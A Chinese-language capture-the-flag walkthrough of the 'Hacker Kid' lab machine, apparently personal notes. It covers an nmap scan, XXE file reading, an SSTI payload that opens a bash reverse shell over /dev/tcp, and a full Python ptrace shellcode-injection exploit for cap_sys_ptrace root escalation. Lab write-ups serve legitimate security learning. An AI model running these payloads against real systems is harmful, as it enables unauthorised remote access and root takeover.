


## 端口扫描
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p53,80,9999 192.168.1.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 16:29 CST
Nmap scan report for 192.168.1.112
Host is up (0.00094s latency).

PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Notorious Kid : A Hacker
9999/tcp open  http    Tornado httpd 6.1
| http-title: Please Log In
|_Requested resource was /login?next=%2F
|_http-server-header: TornadoServer/6.1
MAC Address: 08:00:27:85:7B:E8 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## web渗透

端口9999有一个登录页面

先不看，没有信息

在页面源代码处提示一个参数
尝试了rce和文件包含，都没有用
那么根据意译，页码
去跑一下num
在?page_no=21得到一些信息

```bash
Okay so you want me to speak something ?
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!
Out of my many homes...one such home..one such home for me : hackers.blackhat.local
```
得到一个域名信息
hackers.blackhat.local
修改hosts文件，将ip与该域名绑定
这里写一点题外话
wsl中不用修改hosts文件，改了也没用
修改windows的hosts后使用sudo就可以访问了

根据首页提示的dig
去dig一下这个网站
>dig是一个在Unix和类Unix系统上使用的DNS（域名系统）工具。它的全称是"domain information groper"，它能够查询DNS服务器，获取域名相关的信息，如域名对应的IP地址、MX记录（邮件交换记录）、SOA记录（授权记录）等。dig命令可以用于诊断网络问题，验证DNS配置，以及获取域名相关的信息。

得到一个新的域名` hackerkid.blackhat.local`

在注册账号时，邮箱格式一直出错
抓包发现xml

xxe尝试得到/etc/passwd
发现用户名saket
用hydra爆破了一下，没有任何结果

看题解吧

php伪协议得到bashrc文件
经过了base64编码，解码即可
```bash
username="admin"
password="Saket!#$%@!!"
```
得到如上信息
来到之前发现的9999端口
一个登录框，按照上面的信息登录失败
实际的用户名是saket密码即是上面那个

登陆进入后得到一个web页面
提示要输入name
用下saket作为目录试下

python??
考虑到ssti的可能性

存在ssti
payload
`http://hackers.blackhat.local:9999/?name=%7B%25+import+os+%25%7D%7B%7Bos%2Esystem%28%27bash+%2Dc+%22bash+%2Di+%26%3E+%2Fdev%2Ftcp%2F192%2E168%2E1%2E105%2F2333+0%3E%261%22%27%29%7D%7D`

## 提权


拿到shell后信息收集
看到bash历史命令如上，有几个敏感信息，但是还不知道怎么利用
zipped_apk.zip找不到 SaketApp.apk能找到，但是好像就是一个二进制文件，不知道怎么利用
比较感兴趣的是nc连了5600端口
这里用python2运行了一个py脚本
收集一下python2信息
```bash
saket@ubuntu:/tmp$ ./linpeas.sh | grep python2
./linpeas.sh | grep python2
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . uniq: write error: Broken pipe
uniq: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
grep: /etc/cloud/cloud.cfg: No such file or directory
./linpeas.sh: 2471: curl: not found
saket      37903  0.0  0.1  24516  7448 ?        S    22:07   0:00              _ python2 -c import pty;pty.spawn('/bin/bash')
saket      37970  0.0  0.0  17672   724 pts/0    S+   22:31   0:00                              _ grep --color=auto python2
sed: -e expression #1, char 0: no previous regular expression
Sorry, try again.
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python2.7 = cap_sys_ptrace+ep
./linpeas.sh: 5588: printf: %t: invalid directive
./linpeas.sh: 5588: printf: %t: invalid directive
```

/usr/bin/python2.7 = cap_sys_ptrace+ep

```python
import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid = int(sys.argv[1])

# Define argument type and response type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers = user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in range(0, len(shellcode), 4):
    # Convert the byte to little endian.
    shellcode_byte_int = int(shellcode[i:4+i].encode('hex'), 16)
    shellcode_byte_little_endian = struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
    shellcode_byte = int(shellcode_byte_little_endian, 16)

    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i), shellcode_byte)

print("Shellcode Injected!!")

# Modify the instruction pointer
registers.rip = registers.rip + 2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```

这里提权用到的就是上面的shellcode
滥用 SYS_PTRACE 导致的漏洞

`https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc`
`https://book.hacktricks.xyz/v/cn/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace`

运行exp开启5600端口
nc连接即可root